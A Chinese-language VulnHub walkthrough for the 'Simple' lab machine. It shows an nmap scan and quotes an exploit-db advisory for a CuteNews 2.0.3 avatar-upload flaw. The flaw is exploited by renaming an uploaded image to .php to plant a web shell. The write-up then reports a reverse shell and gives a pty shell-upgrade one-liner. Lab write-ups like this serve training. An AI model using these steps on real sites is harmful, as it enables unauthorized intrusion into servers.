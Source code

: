 # Simple

> https://download.vulnhub.com/sectalks/Simple.ova

靶场IP：`192.168.32.198`

扫描对外端口

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV 192.168.32.198                                                                                                                                                                                                 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-02 05:39 EDT
Nmap scan report for 192.168.32.198
Host is up (0.00064s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
MAC Address: 00:0C:29:C5:01:28 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.70 seconds

```

![image-20220902174056548](../../.gitbook/assets/image-20220902174056548.png)

查找CMS版本漏洞

![image-20220902174200925](../../.gitbook/assets/image-20220902174200925.png)

```
┌──(root💀kali)-[/tmp]
└─# cat 37474.txt                 
          CuteNews 2.0.3 Remote File Upload Vulnerability
        =================================================
1-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=0
0     _                   __           __       __                     1
1   /' \            __  /'__`\        /\ \__  /'__`\                   0
0  /\_, \    ___   /\_\/\_\ \ \    ___\ \ ,_\/\ \/\ \  _ ___           1
1  \/_/\ \ /' _ `\ \/\ \/_/_\_<_  /'___\ \ \/\ \ \ \ \/\`'__\          0
0     \ \ \/\ \/\ \ \ \ \/\ \ \ \/\ \__/\ \ \_\ \ \_\ \ \ \/           1
1      \ \_\ \_\ \_\_\ \ \ \____/\ \____\\ \__\\ \____/\ \_\           0
0       \/_/\/_/\/_/\ \_\ \/___/  \/____/ \/__/ \/___/  \/_/           1
1                  \ \____/ >> Exploit database separated by exploit   0
0                   \/___/          type (local, remote, DoS, etc.)    1
1                                                                      1
0  [+] Site            : Inj3ct0r.com                                  0
1  [+] Support e-mail  : submit[at]inj3ct0r.com                        1
0                                                                      0
1               ##########################################             1
0               I'm T0x!c member from Inj3ct0r Team             1
1               ##########################################             0
0-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-==-=-=-1



# Exploit Title: CuteNews 2.0.3 Remote File Upload Vulnerability
# Date: [02/07/2015]
# Exploit Author: [T0x!c]
# Facebook: https://www.facebook.com/Dz.pr0s
# Vendor Homepage: [http://cutephp.com/]
# Software Link: [http://cutephp.com/cutenews/cutenews.2.0.3.zip]
# Version: [2.0.3]
# Tested on: [Windows 7]
# greetz to :Tr00n , Kha&mix , Cc0de  , Ghosty , Ked ans , Caddy-dz .....
==========================================================
 # Exploit  :

Vuln : http://127.0.0.1/cutenews/index.php?mod=main&opt=personal

 1 - Sign up for New User
 2 - Log In
 3 - Go to Personal options http://www.target.com/cutenews/index.php?mod=main&opt=personal
 4 - Select Upload Avatar Example: Evil.jpg
 5 - use tamper data  & Rename File Evil.jpg to Evil.php

-----------------------------2847913122899\r\nContent-Disposition: form-data; name="avatar_file"; filename="Evil.php"\r\

6 - Your Shell : http://127.0.0.1/cutenews/uploads/avatar_Username_FileName.php

 Example: http://127.0.0.1/cutenews/uploads/avatar_toxic_Evil.php         
```

创建一个帐户，更改头像，篡改请求，我们将拥有一个上传的 shell。

我们注册我们的帐户：

![image-20220902174511845](../../.gitbook/assets/image-20220902174511845.png)

我们转到配置文件选项：

![image-20220902174538202](../../.gitbook/assets/image-20220902174538202.png)

我们选择上传头像的选项：

![image-20220902174703099](../../.gitbook/assets/image-20220902174703099.png)

使用bp拦截修改后缀

![image-20220902175138094](../../.gitbook/assets/image-20220902175138094.png)

就可以看到上传成功。

![image-20220902175203331](../../.gitbook/assets/image-20220902175203331.png)

反弹shell建立成功。

![image-20220902175332640](../../.gitbook/assets/image-20220902175332640.png)

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

